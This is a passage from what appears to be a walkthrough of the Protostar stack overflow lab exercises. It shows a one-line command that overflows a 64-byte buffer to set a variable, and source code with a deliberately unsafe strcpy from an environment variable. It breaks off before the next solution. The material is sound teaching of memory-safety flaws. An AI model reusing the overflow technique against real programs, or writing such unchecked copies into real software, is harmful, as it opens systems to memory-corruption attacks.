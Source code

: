 In our case, `argv [1]` simply corresponds to `arg1`. So we have found a stack overflow at the `strcpy()` because that function doesn't check the size of our `argv`. But the difficulty this time is to put **0x61626364** in our modified variable. To do so, we must put the 64 "A" padding to fill the buffer then we put **0x61626364** like this:

```html
cd /opt/protostar/bin/
./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```

### Third Exercise "Stack Two"

Before moving on the explanation, please take a few minutes to analyze properly the below code.

```html
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char * variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

This exercise is very similar to the one before but carries a certain nuance. Let's look at the documentation for the `getenv()` function if you don't know about it. This function searches the environment variable list for a variable named `name`, and returns a pointer to the corresponding string value. In the above case, our program is vulnerable at the line:

```html
strcpy (buffer, variable);
```

Do you know why? Following this code, our program retrieves what our environment variable "GREENIE" contains and puts everything in buffer without checking the size. So let's exploit this using the below schema.
